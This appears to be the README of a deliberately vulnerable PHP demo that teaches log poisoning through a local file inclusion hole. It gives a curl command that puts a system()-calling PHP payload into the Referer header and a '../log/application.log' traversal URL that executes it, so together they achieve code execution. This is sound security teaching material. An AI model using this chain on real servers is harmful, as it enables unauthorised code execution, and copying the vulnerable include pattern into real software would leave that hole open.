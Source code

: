 # Log poisoning demo

Log poisoning is one way to exploit a local file inclusion vulnerability, but more generally it is the action of injecting syntax into a log and then having some process parse that log.

This example is rather contrived because in `index.php` we use `require` on the file, which causes it to be parsed by PHP.  If the file is included without being parsed by PHP and displayed by the browser then we could deploy an XSS attack instead.  

## To demo the exploit

The package uses translation files to try and change the language that parts of the site are displayed in.

The intention is that the user can change their language by setting the "lang" parameter, for example by visiting `http://localhost:8000/?lang=hi`

### To inject PHP into the log file

Use your favourite request manipulator to call http://localhost:8000 with your injection code in the HTTP `Referer` header.

For example, with curl you could run:

    curl --header "Referer: <?php echo '<pre>'; nl2br(system('ls -la')); echo '</pre>' ?>" http://localhost:8000
    
This will place the poisoned code into the log.

### Executing the injected PHP script

Now visit http://localhost:8000/?lang=../log/application.log to use the local file inclusion vulnerability to execute your injected code.

## Path truncation

PHP used to be vulnerable to [path truncation](https://rawsec.ml/en/local-file-inclusion-remote-code-execution-vulnerability/#path-truncation) but you can experiment with `path_truncation_experiment.php` to see that this appears to have been fixed.

You can also try adding `/` or `./` at the end of the `$translationFilename` variable.  PHP 7.2 fails to open these paths.  

    $translationFilename = __DIR__ . DIRECTORY_SEPARATOR . 'translate' . DIRECTORY_SEPARATOR . $lang . '/.';

## Template

Template is from https://www.bootstrapzero.com/bootstrap-template/rapid ([License](https://bootstrapmade.com/license/))